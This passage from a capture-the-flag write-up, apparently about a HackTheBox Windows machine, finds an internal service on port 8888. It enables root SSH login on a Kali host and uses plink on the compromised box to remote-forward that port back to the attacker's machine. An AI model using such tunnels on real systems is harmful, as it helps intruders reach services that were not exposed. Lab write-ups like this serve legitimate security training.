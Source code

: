 So I checked the listening Ports and its seems port 8888 listening inside the machine.

```bash
[i] Check for services restricted from the outside
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       936
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5008
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       6224
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4308
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       516
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1204
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1664
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2288
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       664
  TCP    10.10.10.198:139       0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       1632
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       5660
```

So We can do Port forwarding using Plink.

> [https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

Before doing we need to do some small changes, We need to PermitRootLogin and restart ssh service.

```bash
root@kali:~# vi /etc/ssh/sshd_config

# Authentication:

#LoginGraceTime 2m
PermitRootLogin yes
#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10

root@kali:~# service ssh restart
root@kali:~# service ssh start
```

Now in the box, upload the plink and now we can remote port forward the port 8888 with this plink tool.

```bash
C:\temp>.\plink.exe root@10.10.14.3 -R 8888:127.0.0.1:8888
.\plink.exe root@10.10.14.3 -R 8888:127.0.01:8888
The server's host key is not cached in the registry. You
have no guarantee that the server is the computer you
think it is.
The server's ssh-ed25519 key fingerprint is:
ssh-ed25519 255 48:34:e6:01:5f:9f:51:07:6c:27:4f:98:82:4c:22:5b
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n) y
Using username "root".
root@10.10.14.3's password: toor

Linux kali 5.7.0-kali1-amd64 #1 SMP Debian 5.7.6-1kali2 (2020-07-01) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```